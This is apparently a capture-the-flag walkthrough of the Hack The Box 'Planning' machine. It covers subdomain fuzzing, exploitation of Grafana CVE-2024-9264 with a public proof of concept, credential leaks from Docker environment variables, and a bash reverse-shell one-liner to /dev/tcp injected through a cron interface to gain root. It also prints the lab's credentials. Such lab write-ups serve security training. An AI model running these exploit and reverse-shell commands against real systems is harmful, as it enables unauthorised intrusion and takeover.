 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Scan](nmap-scan.png)

---

### 2️⃣ Virtual Host Setup

![Planning Web Page](planning.png)

Edited `/etc/hosts`:

```
10.10.11.68 planning.htb
```

---

### 3️⃣ Subdomain Discovery

![FFUF Scan](fuff-scan.png)

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

Discovered: `grafana.planning.htb`
Updated `/etc/hosts`:
![Updated Hosts](added-host1.png)
![Another Hosts Entry](added-host.png)

---

### 4️⃣ Grafana Exploitation (CVE-2024-9264)

Visited: `http://grafana.planning.htb`
![Grafana Login](grafana-login.png)
![Grafana Version](grafana-version.png)

**Credentials:**

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

Used exploit:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

Start listener:

```bash
nc -lvnp 9001
```

![Listener](listener.png)

Run exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Run](python-exploit.png)
![Exploited](exploited.png)

✅ Reverse shell obtained.

---

### 5️⃣ Docker Escape

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Credentials](found-username-password.png)

SSH into host:

```bash
ssh enzo@10.10.11.68
```

![SSH Login](ssh.png)

```bash
cat /home/enzo/user.txt
```

![User Flag](userflag.png)

---

### 6️⃣ Privilege Escalation

Ran linpeas:

```bash
./linpeas.sh
```

Found crontab:

```bash
cat /opt/crontabs/crontab.db
```

![linPEAS Crontab](linpeas-crontab.png)
![Found Root Credentials](found-credentials.png)

Used:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

Local port 8000 found:
![Local Port](port-locally.png)

SSH Port Forward:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](port-forwarding.png)
Visited: `http://localhost:8000`
![Visited 8000](visited8000.png)

Injected shell:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Shell Injected](injected.png)

Started listener:

```bash
nc -lvnp 8888
```

![Listener for Root](setup-listener.png)
![Got Root Shell](gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](user-flag.png)
![Root Flag](root-flagl.png)

---

## ✅ Conclusion

This machine demonstrated a full attack chain:

* Default credentials in Grafana
* Docker environment variable leaks
* Misconfigured internal services
* Port forwarding + command injection

Great for practicing real-world exploitation chains!

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit Script](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

---


- Styling for portfolio format
```
